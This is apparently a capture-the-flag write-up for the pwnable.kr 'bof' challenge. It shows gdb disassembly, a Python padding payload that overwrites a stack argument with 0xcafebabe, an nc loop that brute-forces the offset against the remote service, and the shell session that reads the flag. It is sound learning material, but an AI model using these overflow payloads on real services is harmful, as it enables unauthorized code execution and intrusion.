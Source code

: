 ```yaml
---

title: bof
link: nc pwnable.kr 9000

---
```


Download : http://pwnable.kr/bin/bof & http://pwnable.kr/bin/bof.c

Examining the binary with `gdb` we can suspect that the following will append:

    Dump of assembler code for function func:
       ...
       0x00001eac <+12>:    mov    0x8(%ebp),%ecx
       0x00001eaf <+15>:    lea    0xe7(%eax),%edx
       0x00001eb5 <+21>:    mov    %ecx,-0x4(%ebp)          " Save the value of the function argument to ecx, 0xdeadbeef
                                                            " is at $ebp-0x4
       ...
       0x00001ec3 <+35>:    lea    -0x24(%ebp),%ecx         " $ebp-0x24 will contains the result of the gets
       0x00001ec6 <+38>:    mov    %ecx,(%esp)              " Put this address on the stack for gets to use
       ...
       0x00001ecc <+44>:    call   0x1f54
       0x00001ed1 <+49>:    cmpl   $0xcafebabe,-0x4(%ebp)   " Compare the argument of the function with 0xcafebabe
       ....

So there is a 0x20 difference between the buffer and the function argument. Indeed if we try that:

    $ cat <(python -c "print 'a'*32 + '\xbe\xba\xfe\xca'") - | ./bof
    warning: this program uses gets(), which is unsafe.
    ls
    bof             bof.c

But using the same method with the remote service doesn't work:


    $ echo $(python -c "print 'a'*32 + '\xbe\xba\xfe\xca'") | nc pwnable.kr 9000
    *** stack smashing detected ***: /home/bof/bof terminated
    overflow me :
    Nah..

That must be because the service doesn't use exactly the same OS, thus the memory management will be sligthly different. We can gess though the right number of padding needed with a little loop:


    $ for i in $(seq 40 64); do; echo $i; echo $(python -c "print 'a'*$i + '\xbe\xba\xfe\xca'") | nc pwnable.kr 9000 | grep Nah; done
    ...
    51
    Nah..
    52
    53
    Nah..
    ...

Ah! 52 didn't yield a 'Nah..', it's the good padding to apply:

    $ cat <(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
    ls
    bof
    bof.c
    flag
    log
    log2
    super.pl
    cat flag
    daddy, I just pwned a buFFer :)

> daddy, I just pwned a buFFer :)
